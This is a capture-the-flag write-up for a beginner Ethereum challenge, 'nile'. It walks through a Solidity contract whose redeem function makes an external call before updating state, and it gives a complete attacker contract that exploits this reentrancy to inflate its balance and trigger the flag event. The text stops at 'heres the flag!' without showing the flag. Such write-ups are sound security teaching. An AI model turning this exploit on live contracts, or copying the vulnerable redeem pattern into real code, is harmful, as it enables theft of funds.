


# nile

This is one of the beginner challenges within the misc category so given that CSC previously had a meeting going over hacking smart contracts, techniques used during the meeting would likely be helpful. It was also during the last few hours when we decided to work on this because we were down around 60 points from 2nd place so solving nile would put us in 2nd but little did we know... we would later be bumped down to 4th even after metagaming it and submitting the flag at 1 hour left when we had the flag an hour earlier. 

Things I learned: 
- The structure of blockchains and what they were
- Different ways you can take advantage of them and this is one of them

Note: I am not good at explaining this. :)

**Category**: misc

**Points**: 75 points (25 solves)

**Description**:
I wrote my first smart contract on Ethereum, deployed onto the Görli testnet, you have got to check it out! To celebrate it's launch, I'm giving away free tokens, you just have to redeem your balance. Connect to the server to see the contract address.

**Attachments**: [Nile.sol](./Nile.sol)

## Overview
We are given a Solidity file that should be the source code for what is ran on the server. From the file, the `getFlag(bytes32 token)` function is important to getting the flag.

```solidity
function getFlag(bytes32 token) public {
    require(accounts[msg.sender]);
    require(balance[msg.sender] > 1000);

    emit GetFlag(token);
}
```

It specifically requires a `bytes32 token` that is emitted to someplace(... idk but it seems like the event is just defined and the blockchain keeps track of it). In order to reach that line of code, you must have an account within the system and your balance must be greater than 1000. 

Within `createAccount()` and `createEmptyAccount()`, the function is able to create an account but notably, `createAccount()` sets your balance to 0 and sets another value "redeemable" to 100. 

```solidity
function createAccount() public {
    balance[msg.sender] = 0;
    redeemable[msg.sender] = 100;
    accounts[msg.sender] = true;

    emit Created(msg.sender, 100);
}

function createEmptyAccount() public {
    // empty account starts with 0 balance
    balance[msg.sender] = 0;
    accounts[msg.sender] = true;
}
```

The `redeem(uint amount)` function takes in some amount and make sure that you have that much to redeem before transferring that amount into your account balance. 
```solidity
function redeem(uint amount) public {
    require(accounts[msg.sender]);
    require(redeemable[msg.sender] > amount);

    (bool status, ) = msg.sender.call("");

    if (!status) {
        revert();
    }

    redeemable[msg.sender] -= amount;

    balance[msg.sender] += amount;

    emit Redeem(msg.sender, amount);
}
```

The question is how to get your balance over 1000... Great question. It seems like theres something called reentrancy where if the `call()` function is not specified, contracts will call a `fallback()` function and if the contract executes checks after the call is finished, then you can exploit this and modify the state of the contract to cause an unintended behavior. [Josh Barbee's Slides ](https://docs.google.com/presentation/d/1qw2JneypVUvdRDkTGTvDvxqGMztSaT_b7r2PUzC7Zyg/edit#slide=id.g15e31a517e3_0_95) and [HackerNoon](https://hackernoon.com/hack-solidity-reentrancy-attack) offer better explanations. So if you recursively call the `redeem()` function before the redeemable amount is updated, you can slowly but surly increase your balance to over 1000. 

As for accessing the contract address, we can find out what it is once we connect to the server via netcat and we also get a token that we have to emit over as an event before the flag is given to us. 

## Solution
Taking heavy inspiration from this [pastebin](https://pastebin.com/giD0gxrb) that has Josh's solution, I wrote my own specialized one for this challenge which can be found in [Attack.sol](./Attack.sol) or below: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

contract Attacker {
    Nile addr;
    uint8 public count = 0;
 
    constructor (address _addr) {
        addr = Nile(_addr);
        addr.createAccount();
    }
 
    function attack (bytes32 token) public {
        count = 0;
        addr.redeem(99);
        addr.getFlag(token);
    }
 
    fallback() external payable {
        count++;
        if (count <= 20) {
            addr.redeem(99);
        }
    }
 
    receive() external payable {
        count++;
        if (count <= 20) {
            addr.redeem(99);
        }
    }
}
```

I defined a constructor that takes in the contract address so we can interact with the Nile contract functions. We create an account which sets our redeemable value to 100. I then defined an attack function that does the rest of the work where it takes in the token we would like to emit and recursively redeems and exploits the contract to redeem 20 times, each with an amount of 99. This will put us way above the 1000 mark in order to call the `getFlag()` function and emit the event.

I was able to deploy and test this locally on [Remix](https://remix.ethereum.org/) but could not figure out how to get it to work on the server contract. From what I read, you need an actual test account within the Görli testnet and also right padding the tokens with a bunch of 0's until it was 64 characters long. I used [MetaMask](https://metamask.io/) to create a test account, get free Goerli ETH from a site like [Goerli Faucet](https://www.alchemy.com/) (I'm getting way too many spam emails from alchemy), and especially a BIG THANKS to [wordcounter](https://wordcounter.net/character-count) for counting the number of characters I had. 



and heres the flag!

